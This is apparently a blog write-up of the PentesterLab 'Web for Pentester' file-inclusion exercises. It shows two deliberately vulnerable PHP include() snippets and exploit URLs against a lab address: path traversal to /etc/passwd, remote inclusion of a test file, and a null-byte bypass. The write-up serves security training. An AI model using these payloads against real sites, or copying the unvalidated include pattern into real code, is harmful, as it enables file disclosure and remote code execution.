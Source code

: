 ```yaml
---
layout: post
title: "Pentestlab-Web for Pentester - File Include"
date: 2016-03-16 18:00:22 -0400
comments: true
categories: [pentesterlab, File Include, web pentest]
---
```

Web for Pentester: This exercise is a set of the most common web vulnerability

Difficluty: 1/5
<!--more-->

OWASP:
The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation. 


Tool: ZAP


### Example 1

code review:

```php example1.php
	if ($_GET["page"]) {
		include($_GET["page"]);

	} 

```
The developer uses `include` function in the code. However, there is no filter to protect file include attack. Use firebug to find the variable name is page, then do exploit:

`http://192.168.79.162/fileincl/example1.php?page=../../../../../../etc/passwd`

Also pentesterlab provide a online code `https://pentesterlab.com/test_include.txt`

`http://192.168.79.162/fileincl/example1.php?page=https://pentesterlab.com/test_include.txt`


### Example 2

code review:

```php example2.php
	if ($_GET["page"]) {
    $file = $_GET["page"].".php";
    // simulate null byte issue
    $file = preg_replace('/\x00.*/',"",$file);
		include($file);

	} 

```
There is a null issue. he null byte character effectively tells the filesystem to ignore anything that comes after it. When the path is resolved by the filesystem

so I can do:

`http://192.168.79.162/fileincl/example2.php?page=https://pentesterlab.com/test_include.txt%00`
